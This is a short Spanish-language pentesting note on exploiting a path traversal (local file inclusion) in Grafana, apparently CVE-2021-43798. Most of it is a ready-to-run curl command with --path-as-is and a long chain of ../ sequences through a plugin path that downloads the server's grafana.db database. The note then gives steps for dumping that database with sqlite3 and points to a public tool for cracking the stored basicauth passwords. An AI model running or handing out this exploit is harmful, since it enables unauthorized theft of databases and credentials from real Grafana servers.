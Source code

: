 Si encontramos una versión de grafana con LFI:

Podemos bajar la db del mismo

    curl --path-as-is http://192.168.247.181:3000/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../../../../../../var/lib/grafana/grafana.db -O grafana.db


luego podemos dumpearla con sqlite3.

# Crack pass
Si encontramos un basicauthpassword podemos romperlo con

    https://github.com/jas502n/Grafana-CVE-2021-43798

si nos da un error por falta de librerías:

    go mod tidy
